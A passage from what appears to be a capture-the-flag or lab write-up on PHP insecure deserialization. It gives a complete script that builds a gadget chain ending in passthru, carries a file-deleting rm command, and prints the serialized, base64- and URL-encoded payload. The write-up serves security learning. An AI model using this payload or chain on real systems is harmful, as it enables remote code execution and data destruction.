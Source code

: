 which is exactly what we want and is the same as the third line of our code above: `$test->$command;` which results in our arbitrary code being executed.

I have created a php file to create the final payload with just the parts of the leaked code that are necessary for creating the payload:

```php

<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;

    public function __construct() {
        $this->desc = new DefaultMap('passthru');
        $this->default_desc_type = 'rm /home/carlos/morale.txt';

        $this->build_product();
    }


    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}


class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate();
$ser = serialize($test);
echo($ser . "\n");
echo("===================================================\n");
echo("base64 endcoded then urlencoded: \n");
echo(urlencode(base64_encode($ser)) . "\n");

?>
```
